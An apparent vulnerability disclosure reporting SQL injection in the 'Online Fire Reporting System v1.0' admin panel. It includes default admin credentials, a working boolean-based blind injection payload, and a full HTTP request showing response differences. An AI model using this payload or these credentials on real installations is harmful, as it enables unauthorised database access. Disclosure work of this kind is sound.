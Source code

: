 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=teams/manage_team&id=

Vulnerability location: /ofrs/admin/?page=teams/manage_team&id=, id

Current database name: ofrs_db,length is 7

[+] Payload: /ofrs/admin/?page=teams/manage_team&id=2%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /ofrs/admin/?page=teams/manage_team&id=2%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 30064
![image](https://user-images.githubusercontent.com/54017627/170817163-af04ba14-5ec6-447d-99fc-2ce97b54d794.png)

![image](https://user-images.githubusercontent.com/54017627/170817185-1c39f8d0-56e9-460f-92ec-3d83068747b9.png)

When length (database ()) = 7, Content-Length: 30146
![image](https://user-images.githubusercontent.com/54017627/170817152-35a54a6b-3388-4df5-803b-9591772240c1.png)

![image](https://user-images.githubusercontent.com/54017627/170817175-42630d0f-8ae0-4afb-855d-b01c737fb1ce.png)
